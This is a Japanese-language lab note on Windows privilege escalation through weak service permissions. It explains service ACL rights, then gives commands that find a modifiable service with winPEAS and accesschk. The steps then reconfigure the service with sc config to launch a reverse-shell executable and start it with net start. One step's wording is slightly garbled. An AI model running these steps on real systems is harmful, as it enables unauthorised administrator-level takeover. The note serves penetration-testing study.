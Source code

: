 安全でないサービスパーミッション   
各サービスは、特定のサービス固有のパーミッションを定義するACLを定義しています。    

>いくつかのパーミッションは、無害です   
>例：SERVICE_QUERY_CONFIG   
　　SERVICE_QUERY_STATUS

>有用なものもあります  
>例：SERVICE_STOP   
　　SERVICE_START

>危険なものもある   
例：SERVICE_CHANGE_CONFIG  
　　SERVICE_ALL_ACCESS

<span style="color:red;">ウサギの穴の可能性</span>: もし、サービスの設定を変更することができても、サービスを停止/開始できない場合、特権をエスカレートできない可能性があります。

# Privilege Escalation
1. winPEASを実行し、サービスの設定ミスをチェックします。
```
> .\winPEASany.exe quiet servicesinfo
```
2. daclsvc "サービスを変更することができることに注意してください。
3. accesschk.exeで確認することができます。
```
> .\accesschk.exe /accepteula -uwcqv user daclsvc
```
4. サービスの現在の設定を確認します。
```
> sc qc daclsvc
```
5. 現在のサービス状況を確認する。
```
> sc query daclsvc
```
6. リバースシェルの実行ファイルを使用するようにサービスを再設定します。
```
> sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
7. Kali 上でリスナーを起動し、サービスを開始します。を起動します。
```
> net start daclsvc
```
